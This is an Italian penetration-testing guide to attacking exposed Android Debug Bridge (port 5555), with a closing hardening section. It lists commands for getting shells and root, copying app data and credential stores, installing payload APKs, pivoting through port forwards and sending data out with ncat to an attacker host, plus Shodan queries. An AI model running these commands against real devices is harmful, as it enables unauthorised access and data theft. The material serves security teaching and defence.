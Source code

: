 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Informazioni di base

Dalla [documentazione](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb) è uno strumento da riga di comando per comunicare con dispositivi e emulatori basati su Android. Le azioni tipiche includono l'installazione di pacchetti, il debug e l'ottenimento di una shell Unix interattiva sul dispositivo.

- Porta TCP predefinita storica: 5555 (modalità "adb tcpip" classica).
- Il debug wireless moderno (Android 11+) utilizza il pairing TLS e la scoperta del servizio mDNS. La porta di connessione è dinamica e scoperta tramite mDNS; potrebbe non essere 5555. Il pairing avviene con adb pair host:port seguito da adb connect. Vedi le note qui sotto per le implicazioni offensive.

Esempio di fingerprint nmap:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Connetti

Se trovi ADB esposto e raggiungibile, prova a connetterti e a enumerare rapidamente:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- Se il dispositivo impone l'autenticazione ADB (ro.adb.secure=1), dovrai essere pre-autorizzato (autenticazione USB RSA) o utilizzare il pairing di debug wireless di Android 11+ (che richiede un codice una tantum visualizzato sul dispositivo).
- Alcune immagini dei fornitori, build engineering/userdebug, emulatori, TV, STB e kit di sviluppo espongono adbd senza autenticazione o con adbd in esecuzione come root. In questi casi, di solito atterrerai direttamente in una shell o in una shell root.

Per un riferimento generale ai comandi ADB, vedere:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## Quick Post-Exploitation

Una volta che hai la shell, verifica i privilegi e il contesto SELinux:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### Enumerare e catturare dati

- Elenca app di terze parti e percorsi:
```bash
pm list packages -3
pm path <pkg>
```
- Se hai i permessi di root (adb root o su funzionano), puoi accedere direttamente a /data. In caso contrario, preferisci run-as per app debuggabili:
```bash
# Senza root, per un'app debuggabile
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# Con root
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- Artefatti di sistema utili (richiesta di root):
- /data/system/users/0/accounts.db e dati relativi a AccountManager
- /data/misc/wifi/ (configurazioni/chiavi di rete su versioni più vecchie)
- DB SQLite specifici per app e shared_prefs sotto /data/data/<pkg>

Puoi usare questo per recuperare informazioni sensibili (ad es., segreti dell'app). Per note sulle considerazioni sui dati di Chrome, vedi il problema menzionato [qui](https://github.com/carlospolop/hacktricks/issues/274).

### Esecuzione di codice e consegna di payload

- Installa e concedi automaticamente permessi di runtime:
```bash
adb install -r -g payload.apk         # -g concede tutti i permessi di runtime dichiarati nel manifesto
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- Avvia attività/servizi/broadcast direttamente:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### Port forwarding e pivoting

Anche senza root, adb può inoltrare porte locali a porte del dispositivo e viceversa. Questo è utile per accedere a servizi legati localmente sul dispositivo o per esporre servizi dell'attaccante al dispositivo.

- Inoltra host->dispositivo (accedi a un servizio locale del dispositivo dal tuo host):
```bash
adb forward tcp:2222 tcp:22       # Se il dispositivo esegue SSH (ad es., Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # Esporre il server di debug locale dell'app
```
- Inverso dispositivo->host (consenti al dispositivo di raggiungere un servizio sul tuo host):
```bash
adb reverse tcp:1080 tcp:1080     # Le app del dispositivo possono ora raggiungere host:1080 come 127.0.0.1:1080
```
- Esfiltrazione di file tramite socket (senza scritture su sdcard):
```bash
# Sul host: ascolta
ncat -lvp 9000 > dump.tar
# Sul dispositivo: invia la directory come tar (root o run-as come applicabile)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## Debugging wireless (Android 11+)

Android moderno implementa il debugging wireless protetto da TLS con accoppiamento lato dispositivo e scoperta mDNS:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
Note
- Le porte sono dinamiche; non assumere 5555. I nomi dei servizi mDNS sembrano:
- _adb-tls-pairing._tcp (accoppiamento)
- _adb-tls-connect._tcp (connessione accoppiata)
- _adb._tcp (legacy/plain)
- Se mDNS è filtrato, l'abilitazione classica assistita da USB potrebbe ancora funzionare su alcune build: `adb tcpip 5555` poi `adb connect <ip>:5555` (fino al riavvio).

Implicazioni offensive: se puoi interagire con l'interfaccia utente del dispositivo (ad esempio, accesso fisico o configurazione errata di MDM mobile) per abilitare il debug wireless e visualizzare il codice di accoppiamento, puoi stabilire un canale ADB accoppiato a lungo termine senza cavo. Alcuni OEM espongono ADB su TCP in immagini di ingegneria/sviluppo senza accoppiamento—controlla sempre.

## Indurimento / Rilevamento

I difensori dovrebbero assumere che qualsiasi adbd (TCP) raggiungibile rappresenti un rischio critico.

- Disabilita ADB e il debug wireless quando non necessario. Revoca le autorizzazioni di debug USB nelle opzioni per sviluppatori.
- Assicurati che la politica di rete blocchi il TCP/5555 in entrata e la scoperta ADB basata su mDNS su segmenti non fidati.
- Su dispositivi sotto il tuo controllo:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # disabilita l'ascolto TCP (o usa: adb usb)
stop adbd; start adbd             # riavvia il demone
```
- Monitora i record mDNS `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` sulle reti aziendali e allerta per ascoltatori 5555 inaspettati.
- Inventario per build insicure: `getprop ro.debuggable`, `ro.build.type`, e `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## Riferimenti

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, pairing and mDNS service names: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
